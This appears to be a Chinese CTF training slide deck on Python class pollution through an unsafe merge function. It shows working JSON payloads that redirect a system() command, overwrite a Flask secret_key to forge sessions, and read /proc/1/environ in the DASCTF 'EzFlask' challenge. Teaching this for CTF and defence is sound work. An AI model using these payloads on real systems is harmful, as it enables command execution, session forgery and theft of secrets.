通过修改 `__kwdefaults__` 可以污染函数的关键词参数，从而污染函数的行为。

```python
from os import system
import json

def merge(src, dst): ...

class Employee:
    def __init__(self):
        pass

def execute(*, command='whoami'):
    print(f'Executing {command}')
    system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}')
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
```

---

### 类污染利用：修改 Flask session 的 secret_key

```python
from flask import Flask, session

app = Flask(__name__)
app.secret_key = 'secret'

@app.route('/')
def index():
    return session['username']

class Employee:
    def __init__(self):
        pass

merge(
    {
        "__class__": {"__init__": {"__globals__": {"app": {"secret_key": "Polluted"}}}}
    },
    Employee(),
)

print(app.secret_key) #> Polluted
```

这样就可以伪造 Flask session 的 secret_key，从而伪造 session 中的任意数据来做到任意用户登录。

---

### 题目：EzFlask (DASCTF 2023.07)

使用提供的容器镜像启动服务：

```bash
docker load -i ezflask.tar
docker run -d -p 8000:8000 ezflask
```

服务运行后，访问 `http://localhost:8000/` 即可看到相关页面。

如何使用先前提到的漏洞，得到 Flag？

---

#### 解题思路

<v-clicks>

- 很经典的 `merge` 函数污染，先通过 `__class__.check.__globals__` 拿到当前文件的全局变量。
- 然后选择污染 `__files__` 变量指向的文件来进行读取。
  - 在 Python 原本的实现中，`__files__` 变量指向的是当前文件的完整路径，但是可以覆写。
  - Linux 系统中大概率存在 ProcFS，可以用来读取进程的环境变量、文件描述符、启动命令甚至内存。
    - 当然只有有权限的用户才能访问
- 所以只需要将 `__files__` 覆写为 `/proc/self/environ` 即可读取进程的环境变量，然后访问 `/` 端点即可获得环境变量中的 Flag：

  ```json
  {
    "username": "a",
    "password": "b",
    "__class__": {
      "check": {
        "__globals__": {
          "__file__": "/proc/1/environ"
        }
      }
    }
  }
  ```

</v-clicks>
